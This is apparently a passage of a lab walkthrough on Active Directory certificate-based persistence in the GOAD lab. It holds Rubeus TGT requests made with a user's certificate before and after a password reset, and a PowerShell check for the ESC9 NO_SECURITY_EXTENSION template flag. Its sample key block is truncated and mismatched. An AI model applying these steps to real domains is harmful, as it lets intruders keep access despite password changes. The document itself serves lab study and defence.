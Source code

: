```bash
[*] Subject                 : CN=missandei, CN=Users, DC=essos, DC=local

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 15

[*] cert.pem                :
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2hT8F6PSyEzGCq5VJXpF8rTQoYmZ9BNQ3T4Uy8F0aGF9ZLQW
...certificate without security extension...
-----END CERTIFICATE-----

# Test authentication with current certificate

Rubeus.exe asktgt /user:missandei /certificate:missandei.pfx /password:mimikatz

[*] Action: Ask TGT
[*] Using PKINIT with etype rc4_hmac and subject: CN=missandei, CN=Users, DC=essos, DC=local
[+] TGT request successful!

# Now change the user's password
net user missandei "NewComplexPassword123!" /domain

The command completed successfully.

# Certificate still works for authentication even after password change!

Rubeus.exe asktgt /user:missandei /certificate:missandei.pfx /password:mimikatz

[*] Action: Ask TGT
[*] Using PKINIT with etype rc4_hmac and subject: CN=missandei, CN=Users, DC=essos, DC=local
[+] TGT request successful!

  UserName                 : missandei
  UserRealm                : ESSOS.LOCAL
  ServiceName              : krbtgt/essos.local
  ServiceRealm             : ESSOS.LOCAL
  StartTime                : 1/3/2025 5:30:45 PM
  EndTime                  : 1/4/2025 3:30:45 AM
  RenewTill                : 1/10/2025 5:30:45 PM
  Flags                    : name_canonicalize, pre_authent, initial, renewable, forwardable

# Perfect persistence! The certificate still authenticates despite password change
```

### Template Analysis

Check if template requires security extension in GOAD:

```bash
$templateDN = "CN=ESC9,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local"
$template = Get-ADObject -Identity $templateDN -Properties msPKI-Enrollment-Flag

# The CT_FLAG_NO_SECURITY_EXTENSION flag value is 0x80000 (524288)
$NoSecurityExtensionFlag = 0x80000

if ($template.'msPKI-Enrollment-Flag' -band $NoSecurityExtensionFlag) {
    Write-Host "Template '$($template.Name)' has the NO_SECURITY_EXTENSION flag set."
} else {
    Write-Host "Template '$($template.Name)' does NOT have the NO_SECURITY_EXTENSION flag set."
}

# Output shows template has NO_SECURITY_EXTENSION flag set - perfect for persistence!
```